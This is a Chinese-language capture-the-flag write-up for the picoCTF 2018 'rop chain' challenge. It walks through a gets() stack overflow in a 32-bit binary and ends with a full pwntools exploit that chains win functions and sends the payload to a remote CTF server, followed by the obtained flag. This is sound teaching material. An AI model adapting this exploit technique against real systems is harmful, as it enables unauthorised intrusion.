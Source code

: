 ```yaml
---
title: picoctf_2018_rop chain
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先 CheckSec，如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec PicoCTF_2018_rop_chain
[*] '/home/ela/Pwn/PicoCTF_2018_rop_chain'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了 NX，再看看 IDA 怎么说，下面是主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v4; // [esp+Ch] [ebp-Ch]

  setvbuf(_bss_start, 0, 2, 0);
  v4 = getegid();
  setresgid(v4, v4, v4);
  vuln();
  return 0;
}
```

再看看 `vuln()` 函数

```c
char *vuln()
{
  char s[24]; // [esp+0h] [ebp-18h] BYREF

  printf("Enter your input> ");
  return gets(s);
}
```

溢出点找到了，这个 `gets()`，然后发现还有个函数叫做 `flag()`

```c
int __cdecl flag(int a1)
{
  char s[48]; // [esp+Ch] [ebp-3Ch] BYREF
  FILE *stream; // [esp+3Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 48, stream);
  if ( win1 && win2 && a1 == 0xDEADBAAD )
    return printf("%s", s);
  if ( win1 && win2 )
    return puts("Incorrect Argument. Remember, you can call other functions in between each win function!");
  if ( win1 || win2 )
    return puts("Nice Try! You're Getting There!");
  return puts("You won't get the flag that easy..");
}
```

看了看，如果我达成 `win1 && win2 && a1 == 0xDEADBAAD` 就有我想要的了，但是这个 `win1` 和 `win2` 从何得知呢

再仔细看看函数列表，发现有俩函数，一个是 `win_function1()` 还有一个是 `win_function2()`，先看第一个

```c
void win_function1()
{
  win1 = 1;
}
```

挺好，直接赋值了的，就是说我只要调用就可以了

再看看第二个

```c
int __cdecl win_function2(int a1)
{
  int result; // eax

  result = (unsigned __int8)win1;
  if ( win1 && a1 == 0xBAAAAAAD )
  {
    win2 = 1;
  }
  else if ( win1 )
  {
    result = puts("Wrong Argument. Try Again.");
  }
  else
  {
    result = puts("Nope. Try a little bit harder.");
  }
  return result;
}
```

当 `win_function2()` 中的 `a1` 等于 `0xBAAAAAAD` 且 `win1` 存在时，`win2` 可按照我们的预期赋值（注意，这里的 `a1` 和 `flag()` 中的 `a1` 是不一样的）

## ROP 链构造

这就很明确了我要做些啥，我应当先调用 `win_function1()`，然后调用 `win_function2()`，最后调用 `flag()`

刚才 CheckSec 的时候发现这是 32 位程序，也就是说，我们的 ROP 链应该按照这样的模板构造：

***函数地址 + 返回地址 + 参数***

还有一件事，在 x86 中，函数参数通常是从右到左依次入栈的，因此在 ROP 链中你首先要放的是 `flag_func` 的参数，然后是 `win_func1` 的参数

所以我们可以这么写 Payload

```python
payload = b"A"*(0x18+0x4) + p32(win_func1) + p32(win_func2) + p32(flag_func) + p32(win_a1_exp) + p32(flag_a1_exp)
```

## 附总 Exp

```python
from pwn import *

p32 = lambda x: pack(x, 32)

io = remote("node4.buuoj.cn", 27609)

win_func1 = 0x80485CB
win_func2 = 0x80485D8
flag_func = 0x804862B

flag_a1_exp = 0xDEADBAAD
win_a1_exp = 0xBAAAAAAD

payload = b"A"*(0x18+0x4) + p32(win_func1) + p32(win_func2) + p32(flag_func) + p32(win_a1_exp) + p32(flag_a1_exp)
io.sendline(payload)

io.interactive()

```

最后得到的 Flag 是 `flag{879db459-a6fb-4192-8f42-0c4e439cf1bb}`
